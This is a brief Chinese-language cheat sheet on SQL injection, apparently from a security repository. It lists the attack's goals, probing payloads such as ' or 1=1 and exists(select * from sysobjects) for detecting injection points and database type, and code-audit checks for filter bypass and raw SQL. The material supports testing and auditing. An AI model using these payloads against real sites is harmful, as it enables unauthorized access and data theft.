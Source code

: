 SQL注入
================================

SQL注入的目的
--------------------------------

1. 有账号体系的
    1. 无密码登录
    2. 获取密码

2. 获取数据库结构
3. 获取数据库，系统版本
4. 读写文件


注入过程
--------------------------------
1. 判断注入点
    '
    and 1=1
    and 1=2
    or 1=1
    or 1=2
    and 1=23

2. 若存在注入点,判断数据库类型
    and exists (select * from msysobjects ) > 0 //access数据库
    and exists (select * from sysobjects ) > 0 //SQLServer数据库
3. 判断数据库表
    and exsits (select * from admin)



审计时看什么
--------------------------------
1. 看全局过滤能否bypass
2. 看是否有直接执行sql的地方
3. 看是用的什么驱动，mysql/mysqli/pdo
    1. 如果使用PDO，看是否是直接执行的地方


SQL注入小技巧
--------------------------------
双查询注入